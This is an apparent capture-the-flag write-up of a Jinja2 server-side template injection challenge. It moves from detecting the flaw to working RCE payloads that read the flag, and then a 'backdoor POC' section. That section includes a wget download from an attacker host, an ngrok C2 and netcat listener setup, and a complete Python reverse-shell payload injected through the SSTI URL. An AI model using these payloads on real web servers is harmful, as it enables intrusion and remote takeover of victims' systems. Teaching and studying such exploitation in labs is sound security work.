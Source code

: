 # Super Space Tech Inc

## Challenge Description
Our engineers have found that one of the python web applications have been infiltrated. Try to find what the attackers have hidden!
http://chall.seccomp.xyz:5003/


## Walkthrough
Going to the challenge home page, it shows only a link (Jarvis). This link displays the following text: “Hi, Javis”. Note that the url accepts the parameter “name” and the default input is “Javis”.

![alt text](img/Picture1.png)
![alt text](img/Picture2.png)

The output appears to be printed from a template. This template is as follows:
“Hi, {name}”, where the variable “name” is the url input. 
To verify, we can inject our own input.

![alt text](img/Picture3.png)

Our input is displayed successfully. 

A vulnerability called Server Side Template Injection (SSTI) could be present in this web app.

SSTI is a critical vulnerability as it enables the attacker to inject malicious inputs into a template and execute server side.

Potential threats include unauthorised file disclosure and arbitrary code execution.

The challenge title also gives a hint that it is SSTI (**S**uper **S**pace **T**ech **I**nc).

A simple test to detect SSTI is to perform a mathematical evaluation and verify if the input is rendered and reflected in the output. Inserting the input “{{7*7}}” into the url parameter prints the output of 49, confirming the existence of SSTI.
![alt text](img/Picture4.png)

In order to use the correct payload, we will need to identify the template engine. By injecting an invalid payload, an error will trigger and the engine is identified. However if the error messages are suppressed, we will need to inject language-specific payloads. Fortunately, PortSwigger has a decision tree for us to refer to: https://portswigger.net/research/server-side-template-injection
![alt text](img/Picture5.png)

In this challenge, all of these are unnecessary as the description states it is running a python web server (Jinja2).

SSTI Payloads can be found in PayloadsAllTheThings (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

We will use the following payload to execute the “id” command via Remote Code Execution (RCE) in Jinja2 syntax
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
![alt text](img/Picture6.png)


The command is executed successfully.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27id%27).read()%20}}
```
![alt text](img/Picture7.png)


List files in the directory using “ls” command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27ls%27).read()%20}}
```
![alt text](img/Picture8.png)


The flag.txt is discovered in the directory. Obtain the flag using “cat” command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()%20}}
```
![alt text](img/Picture9.png)

The flag obtained is **CZ4067{3xp1oiT_sStI}**.


## Taking a step further from REMOTE CODE EXECUTION (RCE)
The implications of a vulnerability leading to a RCE is catastrophic as it gives the attackers the ability to perform arbitrary code execution, including system commands.
Once obtaining RCE, an attacker will typically attempt to gain backdoor access into the victim’s machine to perform more malicious actions. We will demonstrate a simple Backdoor POC for the purpose of educating others on the impacts of RCE.

### Creating our payload
A common method of gaining backdoor access in Linux is to transfer a malicious payload into the victim machine via **curl** or **wget** command. However, it is discovered that neither commands are installed in this machine.

Curl command to http://google.com
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27curl%20http://google.com%27).read()%20}}
```

Wget command from attacker machine
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27wget%20http://AttackerIP/payload.exe%27).read()%20}}
```
![alt text](img/Picture10.png)

Fortunately, as this is a Linux machine, it will typically have Python installed. We can use the **socket.connect()** method from Python’s socket library, which establishes a TCP connection to a server. This will be our reverse shell payload.

### Setting up C2 Server and Kali netcat for listening
As the connection is made over the Internet, we will need to set up Port Forwarding in our own network. However, this will cause security issues as our Public IP Address will be disclosed. Thus, we will set up a Command and Control (C2) Server using **ngrok**. Signing up is required and installation can be found in the website: https://ngrok.com/download

Once ngrok is installed in our Kali Linux machine, we run the following command:
```console
$ ngrok tcp <internal port>
```
In this test, the internal port used is **6969**.

The service will start and traffic is now forwarded from ngrok service to our localhost
![alt text](img/Picture11.png)

Next, set up **netcat** to listen for incoming connection
```console
$ nc -lvnp 6969
```

### Executing reverse shell
The following command will be injected into the Web Server:
```console
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ngrokIP",externalport));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

In summary, the Web Server will establish a connection with our C2 Server, before spawning a bash process. In this example, ngrokIP is **0.tcp.ap.ngrok.io** and externalport is **17897**.

This will be the resulting RCE command:
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27python%20-c%20\%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%220.tcp.ap.ngrok.io%22,17897));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)\%27%27).read()%20}
```

In our Kali Linux machine, a shell terminal is opened and we can interact with the Web Server directly.
![alt text](img/Picture12.png)

Having a direct connection to the victim’s machine allows the attacker to proceed with his kill chain. He can perform post-exploitation methods including but not only:
- Enumeration for Privilege Escalation, gaining root access to the machine
- Data Exfiltration
- Persistency in the machine
- Pivoting into exploiting other machines within the network

